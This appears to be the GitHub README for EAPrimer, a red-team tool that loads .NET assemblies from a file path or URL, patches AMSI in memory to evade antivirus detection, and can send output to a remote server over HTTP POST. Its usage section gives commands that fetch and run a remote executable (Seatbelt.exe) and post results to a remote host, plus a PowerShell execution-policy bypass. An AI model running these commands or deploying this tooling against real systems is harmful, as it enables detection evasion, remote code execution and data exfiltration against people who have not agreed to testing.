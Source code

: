# EAPrimer

EAPrimer can be used to load .Net assemblies from a filepath or URL. On startup, it will attempt to perform in-memory patching of AMSI to bypass detection. By default, output is written to the console, however, this can be directed to a file or even sent via HTTP POST request to a remote server.

The latest, compiled version of the code is available <a href="bin/">here</a>.

#### Usage:
Execute remote file with arguments and send output to server:
```text
EAPrimer.exe -path=https://192.168.1.2/Seatbelt.exe -post=https://192.168.1.2 -args="-group=all"
```

Execute local file with arguments and write output to file:
```text
EAPrimer.exe -path=.\Seatbelt.exe -post=results.txt -args="-group=all"
```


## Invoke-EAPrimer.ps1
The main purpose for writing EAPrimer.exe was to act as a support, or "Primer", for executing assemblies. Ultimately allowing for an "execute_assembly" module in pentest frameworks such as <a href="https://github.com/m8r0wn/ActiveReign">ActiveReign</a> and <a href="https://github.com/byt3bl33d3r/CrackMapExec">CrackMapExec</a>. The PowerShell script allows for added flexibility to create these modules  *(coming soon)*.

#### Usage:
```powershell
powershell -exec bypass
Import-Module .\Invoke-EAPrimer.ps1
Invoke-EAPrimer -Path .\Seatbelt.exe -Args -group=all
```

## Credit
This was one of my first deep dives into C# and much of the heavy lifting was already done by these guys:
* <a href="https://twitter.com/Flangvik">Flangvik</a> - <a href="https://github.com/Flangvik/NetLoader">NetLoader</a>
* <a href="https://twitter.com/_RastaMouse/">_RastaMouse</a> - <a href="https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs">AMSI Bypass</a>

## Notes
* Built with .Net 4.0
* Checkout <a href="https://github.com/Flangvik/SharpCollection">SharpCollection</a> for hosted payloads to test it out!